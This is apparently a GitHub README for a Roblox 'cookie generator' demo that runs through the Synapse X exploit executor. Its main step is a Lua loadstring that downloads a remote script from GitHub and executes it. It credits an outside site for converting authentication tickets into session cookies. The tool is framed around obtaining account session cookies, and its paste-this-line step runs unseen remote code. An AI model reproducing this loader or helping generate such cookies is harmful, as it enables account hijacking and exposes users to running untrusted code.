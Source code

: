 # Cookie gen 🍔
Read LICENSE before using.

Fully proxyless cookie generator test

(You can only generate 3, it's just a demo)
## Supported exploits
Synapse X
## How to use
Run the [script in the repository](https://raw.githubusercontent.com/websinkwastaken/cookie-gen/main/cg.lua)
Or, use the loadstring:

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/websinkwastaken/cookie-generator/main/cg.lua",true))()
```

Press F9 to see how many cookies are left to generate.

When it's done the cookies will show up in the console.

# Credits 🍕
[CJ](http://cjthebongocat.xyz), for hosting an authentication ticket to cookie converter.

[Me](https://github.com/websinkwastaken), for making this.

You, For checking this out :D

Note:

my method of generating cookies is so smart you wouldn't even understand it, Don't ask.
